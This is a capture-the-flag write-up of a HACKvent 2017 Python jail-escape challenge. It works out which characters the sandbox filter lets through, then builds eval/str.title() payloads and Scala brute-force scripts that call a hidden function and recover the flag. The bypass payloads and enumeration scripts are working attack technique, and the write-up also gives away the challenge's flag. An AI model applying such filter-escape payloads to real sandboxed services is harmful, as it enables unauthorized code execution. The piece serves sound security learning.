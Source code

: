 # Day 16: Try to escape ...

*... from the snake cage*

Santa programmed a secure jail to give his elves access from remote. Sadly the jail is not as secure as expected.

`nc challenges.hackvent.hacking-lab.com 1034`

### Solution

When you connect to the server you see a nice python ascii-art and a hint: *The flag is stored super secure in the function SANTA!*

My first naive attempt was to simply type `SANTA()` in the command prompt.

```
$ nc challenges.hackvent.hacking-lab.com 1034
                  _____
              .-'`     '.
           __/  __       \\
          /  \ /  \       |    ___
         | /`\| /`\|      | .-'  /^\/^\\
         | \(/| \(/|      |/     |) |)|
        .-\__/ \__/       |      \_/\_/__..._
_...---'-.                /   _              '.
 /,      ,             \   '|  `\                \\
| ))     ))           /`|   \    `.       /)  /) |
| `      `          .'       |     `-._         /
\                 .'         |     ,_  `--....-'
 `.           __.' ,         |     / /`'''`
 `'-.____.-' /  /,         |    / /
     `. `-.-` .'  \        /   / |
       `-.__.'|    \      |   |  |-.
          _.._|     |     /   |  |  `'.
    .-''``    |     |     |   /  |     `-.
 .'`         /      /     /  |   |        '.
 /`           /      /     |   /   |\         \\
/            |      |      |   |   /\          |
 ||            |      /      |   /     '.        |
 |\            \      |      /   |       '.      /
 \ `.           '.    /      |    \        '---'/
\  '.           `-./        \    '.          /
 '.  `'.            `-._     '.__  '-._____.'--'''''--.
 '-.  `'--._          `.__     `';----`              \\
    `-.     `-.          `."'```                     ;
       `'-..,_ `-.         `'-.                     /
              '.  '.           '.                 .'

Challenge by pyth0n33. Have fun!

The flag is stored super secure in the function SANTA!
>>> a = SANTA()
name 'santa' is not defined
```

As you can see my input was lowercased for some reason. So I tried to get rid of it by using `eval` and `upper` but it didn't work at all.

```
>>> a = eval('SANTA()')
name 'santa' is not defined
>>> a = eval('santa()'.upper())
Denied
```

It was a surprise to get `Denied` response. It didn't make sense to me at this point. I experimented more with the input and then I realized that some characters are blocked and always cause denial. I wrote a simple script to find allowed characters for me.

```scala
val nc = NetCat.open("challenges.hackvent.hacking-lab.com", 1034)
try {
// read prompt
nc.read

// find allowed chars
val allowedChars = (' ' to '~').filter { c =>
nc.writeln(c.toString)
!nc.read.contains("Denied")
}
println(allowedChars.mkString(", "))
} finally {
nc.close
}
```

These are characters allowed in input:

```
", ', (, ), +, ., 0, 1, 2, 3, 7, 9, A, C, D, E, I, L, N, O, P, R, S, T, V, [, ], _, a, c, d, e, i, l, n, o, p, r, s, t, v
```

Now it finally makes sanse why `eval()` is allowed but `upper()` isn't - because of letter `u` which is not allowed in general. Now I got the idea what I'm dealing with.

After reading Python documentation I found a promising String method [`title()`](https://docs.python.org/3.6/library/stdtypes.html#str.title) which could work in combination with `eval()` and `print()`. Let's try it.

```
>>> a = print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'()'))
No flag for you!
```

OK, now it looks like we are getting somewhere! The `SANTA()` function is finally called but we need to find the right argument to pass in. I did some experiments with simple arguments and found interesting thing:

```
>>> a = print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'(1)'))
zip argument #2 must support iteration
>>> a = print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'("1")'))
H
```

This indicates that `SANTA()` function calls `zip()` at some point and the argument should be a string. I wrote another script to try to find a string of allowed charatecters which results in the known flag prefix `HV17-`.

```scala
val nc = NetCat.open("challenges.hackvent.hacking-lab.com", 1034)
try {
val allowedChars = List('"', '\'', '(', ')', '+', '.', '0', '1', '2', '3', '7', '9', 'A', 'C', 'D', 'E', 'I', 'L', 'N', 'O', 'P', 'R', 'S', 'T', 'V', '[', ']', '_', 'a', 'c', 'd', 'e', 'i', 'l', 'n', 'o', 'p', 'r', 's', 't', 'v')

// read prompt
nc.read
 
// try to find suitable argument for SANTA() function
val expected = "HV17-"
var arg = ""
for (len <- 1 to expected.length) {
  var found: Option[Char] = None
  for (c <- allowedChars) {
    if (found.isEmpty) {
      val msg = """print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'("""" + (arg + c) + """")'))"""
      nc.writeln(msg)
      val res = nc.read
      if (res.startsWith(expected.substring(0, len))) {
        found = Some(c)
        println(s"'${arg + c}' -> '${res.split("\n")(0)}'")
      }
    }
  }
  arg += found.get
}
} finally {
nc.close
}
```

Here is the result:

```
'1' -> 'H'
'13' -> 'HV'
'133' -> 'HV1'
'1337' -> 'HV17'
'13371' -> 'HV17-'
```

It looks like masking with mask `1337`. The right argument should be repeated mask of total length of 29 characters. Let's verify this assumption with a complete program (source code can be found [here](../../src/main/scala/hackvent2017/Day16.scala)) which puts all the pieces together.

```scala
def main(args: Array[String]): Unit = {
  val nc = NetCat.open("challenges.hackvent.hacking-lab.com", 1034)
  try {
    // read prompt
    nc.read

    //val allowedChars = findAllowedChars(nc)
    //val argForFlagPrefix = findArgumentForExpectedResult(nc, allowedChars, "HV17-")

    val mask = (0 until 29).map(i => "1337".charAt(i % 4)).mkString
    println(callSanta(nc, mask))
  } finally {
    nc.close
  }
}

private def findAllowedChars(nc: NetCat): Seq[Char] = {
  (' ' to '~').filter { c =>
    nc.writeln(c.toString)
    !nc.read.contains("Denied")
  }
}

private def findArgumentForExpectedResult(nc: NetCat, allowedChars: Seq[Char], exptectedResult: String): String = {
  var arg = ""
  for (len <- 1 to exptectedResult.length) {
    var found: Option[Char] = None
    for (c <- allowedChars) {
      if (!found.isDefined) {
        val res = callSanta(nc, arg + c)
        if (res.startsWith(exptectedResult.substring(0, len))) {
          found = Some(c)
          println(s"'${arg + c}' -> '${res}'")
        }
      }
    }
    arg += found.get
  }
  arg
}

private def callSanta(nc: NetCat, arg: String): String = {
  val msg = """print(eval('s'.title()+'a'.title()+'n'.title()+'t'.title()+'a'.title()+'("""" + arg + """")'))"""
  nc.writeln(msg)
  nc.read.split("\n")(0)
}
```

The result is:

```
HV17-J41l-esc4-p3ed-w4zz-3asy
```